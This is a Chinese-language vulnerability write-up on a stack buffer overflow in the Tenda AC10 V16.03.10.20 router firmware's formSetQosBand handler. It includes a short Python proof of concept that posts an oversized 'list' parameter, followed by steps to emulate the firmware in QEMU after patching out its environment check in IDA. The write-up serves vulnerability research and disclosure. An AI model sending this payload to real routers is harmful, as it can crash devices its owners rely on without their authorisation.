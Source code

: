 # Vulnerability Discovery

## 记: IoT路由固件漏洞挖掘

### 产品

* Tenda AC10
* 固件下载地址: [https://www.tenda.com.cn/download/detail-3684.html](https://www.tenda.com.cn/download/detail-3684.html)
* 硬件版本: V4.0
* 软件版本: V16.03.10.20
* 说明：此固件仅适用于AC10 v4型号的机器升级

### 影响版本

V16.03.10.20

### 漏洞细节

Tenda AC10 V16.03.10.20固件&#x5728;**`formSetQosBand`**&#x51FD;数中存在**堆栈溢出漏洞**。

<figure><img src="../.gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

从POST请求接收“list”参数赋值给变量s，该变量作为参数传递到函&#x6570;**`set_qosMb_list`**&#x4E2D;。在函&#x6570;**`set_qosMb_list`**&#x4E2D;，变量a1被传递给s，后者随后被分配给v9变量，该变量固定为256字节。然而，由于用户可以控制列表的输入，因此语句`strcpy（v9,s)`可能导致缓冲区溢出。用户提供的列表可能超过v9变量的容量，从而触发此安全漏洞。

<figure><img src="../.gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

### Exp

```
import requests
from pwn import*
​
ip = "***"  #仿真IP地址
url = "http://" + ip + "/goform/SetNetControlList"
payload = b"a"*2000
​
data = {"list": payload} #溢出数据传递给list
res = requests.post(url, data=data)
```

#### 仿真

参考文章：

[https://blog.csdn.net/qq\_45894840/article/details/136514555](https://blog.csdn.net/qq_45894840/article/details/136514555)

工具：

Binwalk、IDA 7.6 Pro、QEMU

详细过程：

首先使用Binwalk提取固件文件系统，提取后会在当前目录生成一个文件夹，进入文件夹，在squashfs-root目录下是路由器主要运行的一些东西

```
binwalk -Me 固件名称.bin
```





<figure><img src="../.gitbook/assets/3 (2).png" alt=""><figcaption></figcaption></figure>

需要分析的固件在bin目录下，bin/httpd这个程序就是路由器主要运行的固件，使用file命令可以得知路由器固件相关的信息，比如这次的路由二进制文件是mips指令架构，32位ELF

<figure><img src="../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

尝试使用qemu运行，失败，权限不足，改用sudo以后发现路由器运行输出welcome以后卡住

<figure><img src="../.gitbook/assets/5 (2).png" alt=""><figcaption></figcaption></figure>

这是因为路由器检测环境功能的存在，接下来使用IDA破解路由器检测环境

#### IDA破解路由器检测环境

思路就是找到验证的代码nop掉验证的指令，patch二进制文件就可以，详细过程参考图片如下

先找到相关的代码，这里直接搜索字符串查看其xref

<figure><img src="../.gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../.gitbook/assets/8 (2).png" alt=""><figcaption></figcaption></figure>

定位到main函数，找到相关的代码，发现是一个while循环，通过了if的验证才能跳出：

<figure><img src="../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

对应的汇编如下，也就是说需要nop掉红框中的两个跳转

<figure><img src="../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

在IDA中Patch Bytes（Edit->Patch program->change byte）将前四字节修改为00，就能换成nop指令了

<figure><img src="../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

完成以后打补丁（Edit->Patch program->Apply patches to input file）

替换文件以后需要注意给文件赋权限：

```
chmod 777 httpd
```

<figure><img src="../.gitbook/assets/13 (1).png" alt=""><figcaption></figcaption></figure>

最后仿真（添加新的网卡，这里一开始我没有添加正确一直创建soccket报错卡了很久啊啊啊）

<figure><img src="../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

```
（sudo）：
brctl addbr br0
brctl addif br0 eth0 #注意！！！这里网卡绑自己虚拟机的eths
ifconfig br0 up
dhclient br0 
```

最后执行Poc成功触发漏洞：

<figure><img src="../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>
